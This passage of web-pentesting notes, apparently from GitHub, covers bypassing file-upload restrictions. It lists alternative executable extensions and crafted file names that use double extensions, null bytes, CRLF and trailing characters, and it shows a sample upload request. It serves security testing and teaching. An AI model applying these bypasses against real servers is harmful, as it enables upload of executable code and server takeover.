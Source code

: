 ```
**PHP** → .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
**ASP** → asp, .aspx, .cer, .asa
**Jsp** → .jsp, .jspx, .jsw, .jsv, .jspf
**Coldfusion** → .cfm, .cfml, .cfc, .dbm
**Using random capitalization** → .pHp, .pHP5, .PhAr

Find more in PayloadAllThings and <https://book.hacktricks.xyz/pentesting-web/file-upload>

4. If successful then exploit further, or there might be other type of validation or
	 check so try other bypass.

```

## Test Case - 2: Whitelisting Bypass

```
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is whitelisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.jpg"
Content-Type: application/x-php

3. Try all of this extension

file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\\\\x00.jpg this can be done while uploading the file too, name it file.phpD.jpg and change the D (44) in hex to 00.
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\\\\
file.php#.png
file.
.html

4. If doesn't works then try to bruteforce using intruder which extension are accepted and try again
5. If successful then exploit further, or there might be other type of validation or
	 check so try other bypass.

```
